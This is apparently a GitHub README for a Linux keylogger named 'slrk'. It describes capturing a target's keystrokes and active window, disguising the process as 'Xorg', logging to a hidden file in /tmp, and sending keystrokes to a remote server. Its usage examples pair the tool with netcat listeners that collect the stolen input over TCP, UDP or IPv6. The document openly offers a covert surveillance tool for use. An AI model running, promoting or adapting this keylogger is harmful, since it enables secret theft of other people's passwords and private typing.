 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	* Simple keylogger that runs on Linux either locally or remotely.
	* It shows the active window on which the target is writing.
	* Keys are mapped on US keyboard.
	* It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	* Process name is renamed as "Xorg".
	* It works with both TCP and UDP and with ipv6 too.
	* It must be run as root.

```
Usage: #./slrk [OPTIONS]
```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	[TCP]
	```
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[UDP]
	```
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[IPv6]
	```
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	```

